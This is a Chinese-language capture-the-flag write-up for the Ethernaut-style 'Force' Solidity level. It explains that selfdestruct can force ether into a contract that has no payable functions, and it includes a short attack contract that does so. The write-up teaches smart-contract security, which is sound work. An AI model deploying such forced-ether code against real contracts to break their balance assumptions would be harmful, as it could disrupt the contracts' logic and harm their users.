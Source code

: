 # Force

## 题目

目标：向合约发送一些钱

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}

```

## 分析

这个合约里面什么都没有，没有fallback和receive函数接收以太，也没有任何一个payable的函数可以接收以太。因此我们只可以强制给他打钱。

我们有一个方法可以强制给一个合约打钱：`selfdestruct(addr)`。自毁函数在执行的时候会强制给目标地址addr转钱，转出金额为本合约中的所有余额。

那么我们就可以写一个合约，给合约转点钱，然后让这个合约自毁，自毁的钱转给题目地址

## 攻击合约

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
contract Hack {
    Force public force;

    constructor(Force _force) {
        force = Force(_force);
    }

    function attack() public payable {
        address payable addr = payable(address(force));
        selfdestruct(addr);
    }
}
```

## 做题

部署，攻击

![image-20221223124406821](07.Force/image-20221223124406821.png)

通过

![image-20221223124432503](07.Force/image-20221223124432503.png)
